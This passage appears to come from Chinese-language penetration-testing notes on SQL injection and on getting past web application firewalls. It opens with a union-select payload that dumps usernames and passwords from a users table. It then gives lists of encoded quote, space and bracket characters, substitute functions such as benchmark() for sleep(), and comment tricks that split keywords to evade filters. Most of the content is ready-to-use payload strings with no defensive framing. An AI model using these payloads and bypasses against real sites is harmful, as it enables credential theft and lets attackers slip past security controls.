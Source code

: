 ```sql
1' union select user,password from users#
```
![72cba3250733a2db93c4ffeba661ac89.png](en-resource://database/525:1)


## 八. 绕WAF
### 编码绕过
URL；十六进制；Unicode
url or1=1
%6f%72%20%31%3d%31

Unicode

单引号:   %u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7

空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0

左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8

右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9


### 等效函数

hex()、bin() ==> ascii()

sleep() ==>benchmark()

concat_ws()==>group_concat()

substr((select 'password'),1,1) = 0x70

strcmp(left('password',1), 0x69) = 1

strcmp(left('password',1), 0x70) = 0

strcmp(left('password',1), 0x71) = -1

mid()、substr() ==> substring()

@@user ==> user()

@@datadir ==> datadir() 

### 等效符号
 >= ,<= ,is null,is not null,<>
 
 ### 注释
 
//, -- , /**/, #, --+,--  -, ;，--a

union select 1,2,3,4 或 union/**/select/**/ 1,2,3,4、
union /*aaaa%01bbs*/select
union /*aaaaaaaaaaaaaaaaaaaa*/select
/*!xxx*/

